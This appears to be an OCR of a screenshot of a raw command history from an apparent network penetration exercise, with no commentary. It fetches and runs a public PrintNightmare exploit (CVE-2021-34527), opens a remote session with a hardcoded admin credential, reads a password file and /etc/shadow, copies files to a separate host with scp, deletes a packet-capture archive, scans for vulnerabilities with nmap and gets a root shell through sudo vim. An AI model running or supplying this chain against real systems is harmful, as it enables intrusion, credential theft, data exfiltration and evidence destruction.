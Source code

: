 ```
Invoke-WebRequest 'https://raw.githubusercontent.com/JohnHammond/CVE-2021-34527/refs/heads/master/CVE-2021-34527.ps1' -OutFile .\CVE-2021-34527.ps1
Invoke-WebRequest 'https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4NetworkScanner/refs/heads/main/Scripts/IPv4NetworkScan.ps1' -OutFile scan.ps1 
.\scan.ps1 -IPv4Address 10.0.1.0 -CIDR 24
ping 10.0.1.16
ls
Import-Module .\CVE-2021-34527.ps1
Invoke-Nightmare 
$user = "adm1n"
$pw = "P@ssw0rd"
$password = $pw | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $user,$password 
New-PSSession -Credential $cred | Enter-PSSession

-->

[localhost]: PS C:\Users\adm1n\Documents> whoami
cd C:\Users\TestAdmin\Documents\
ls
Copy-Item .\pw.txt C:\Users\TestUser\pw.txt
type .\pw.txt
exit
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password pw.txt debian@10.1.3.165:/home/debian/
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password ubuntu@10.0.1.16 -p 666

-->

Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64) 

whoami
(cat /proc/version || uname -a ) 2>/dev/null
echo $PATH
cat /proc/version
uname -a
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
sudo -V
ls
cd Documents/
ls
cat secret.txt 
ls -lah 
sudo -l
nmap -A -p- -sV -sC -oN nmap.txt 10.0.1.0/25
cd ..
nmap -A -p- -sV -sC -oN nmap.txt 10.0.1.0/25
cat /etc/passwd
cat /etc/shadow
rm /home/ubuntu/tshark/IT-Linux-PC-1.pcap.tar.gz
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password nmap.txt debian@10.1.3.165:/home/debian/
nmap -Pn --script vuln 10.0.1.20
sudo vim -c '!sh'

-->

:!sh
# whoami
cat /etc/passwd
cat /etc/shadow
ls 
```